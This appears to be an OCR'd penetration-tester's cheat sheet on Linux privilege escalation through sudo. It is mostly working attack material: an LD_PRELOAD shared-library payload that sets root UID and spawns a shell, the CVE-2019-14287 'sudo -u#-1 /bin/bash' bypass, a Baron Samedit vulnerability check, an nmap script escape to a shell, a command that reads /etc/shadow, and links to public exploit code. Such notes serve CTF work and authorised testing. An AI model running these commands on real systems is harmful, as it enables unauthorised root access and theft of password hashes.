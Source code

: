 sudo -l, cat /etc/sudoers, check gtfobins  
sudo -V    
### Sudo LD_PRELOAD   
[Reference](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) 
sudo -l, see env_keep+=LD_PRELOAD. apache2

    #include <stdio.h> 
    #include <sys/types.h>
    #include <stdlib.h>
    void _init(){
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
    } 
    
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c 

sudo LD_PRELOAD=/tmp/preload.so [sudo binary] 

### CVE-2019-14287 
Sudo versions < 1.8.28. Sees -1 and reads as 0 (UID of root) 

sudo -l, see (ALL,!root)  

    sudo -u#-1 [binary escape]  
    sudo -u#-1 /bin/bash      #get a bash root shell    

    
### CVE-2019-16634 Buffer Overflow 
versions of sudo earlier than 1.8.26  
sudo su root, type password, see ******: pwfeedback enabled in /etc/sudoers. Buffer overflow attack against password feedback.   

[exploit](https://github.com/saleemrashid/sudo-cve-2019-18634)  

### CVE-2021-3156 - Baron Samedit Heap Buffer Overflow 
[Qualys blog post](https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)  
[poc 2](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156)   
[exploit](https://github.com/blasty/CVE-2021-3156)  

any unpatched version of the sudo program from 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1

    sudoedit -s '\' $(python3 -c 'print("A"*1000)')                  #check to see if machine is exploitable, shouldn't see usage    

### Misc sudo binaries  
nmap 

    echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse  
apache2

    sudo apache2 -f /etc/shadow    
    